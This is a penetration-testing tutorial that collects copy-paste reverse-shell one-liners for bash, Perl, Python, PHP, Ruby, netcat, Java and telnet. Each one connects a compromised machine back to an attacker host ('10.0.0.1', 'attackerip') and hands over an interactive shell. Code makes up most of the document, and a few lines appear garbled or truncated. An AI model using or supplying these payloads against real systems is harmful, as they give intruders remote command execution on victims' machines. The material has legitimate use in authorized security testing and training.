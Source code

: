 ## How to Create a Reverse Shell to Remotely Execute Commands

![thumbnail](https://raw.githubusercontent.com/neoslab/tutorials/master/thumbnails/dbfb972acdd0c85c73b86011a4560421-1920x1080.jpg "Thumbnail")

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterward you’ll probably want an interactive shell. If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – although you can probably download a binary program if you are properly prepared. The examples shown are tailored to Unix-like systems. Some of the examples below should also work on Windows if you use substitute "`/bin/sh -i`" with "`cmd.exe`". Each of the methods below is aimed to be a one-liner that you can copy/paste. As such they’re quite short lines, but not very readable.

* * *

###### BASH

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 18.04)

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Or

```bash
exec /bin/bash 0&0 2>&0
```

Or

```bash
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```

Or

```bash
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done
```

Or

```bash
while read line 0<&5; do $line 2>&5 >&5; done
```

* * *

###### PERL

Here’s a short, feature-free version that depends on /bin/sh:

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Perl reverse shell that does not depend on /bin/sh:

```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

If the target system is running Windows use the following one-liner:

```bash
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

* * *

###### PYTHON

This was tested under Linux / Python 2.7

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* * *

###### PHP

This code assumes that the TCP connection uses file descriptor 3. This worked on the most tested system. If it doesn't work, try 4, 5, 6…

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

* * *

###### RUBY

Short version that depends on /bin/sh:

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Longer Ruby reverse shell that does not depend on /bin/sh:

```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

If the target system is running Windows use the following one-liner:

```bash
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

* * *

###### NETCAT

Netcat is rarely present on production systems and even if it is there are several versions of Netcat, some of which don’t support the -e option.

```bash
nc -e /bin/sh 10.0.0.1 1234
```

Others possible Netcat reverse shells, depending on the Netcat version and compilation flags:

```bash
nc -c /bin/sh attackerip 4444
```

Or

```bash
/bin/sh | nc attackerip 4444
```

Or

```bash
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```

* * *

###### JAVA

Always present when you need it, the "Java" language can also be a very good solution to establish a reverse shell.

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

* * *

###### TELNET

Of course, you can also use Telnet as an alternative for Netcat:

```bash
rm -f /tmp/p; mknod /tmp/p p &&&& telnet attackerip 4444 0/tmp/p
```

Or

```bash
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
```
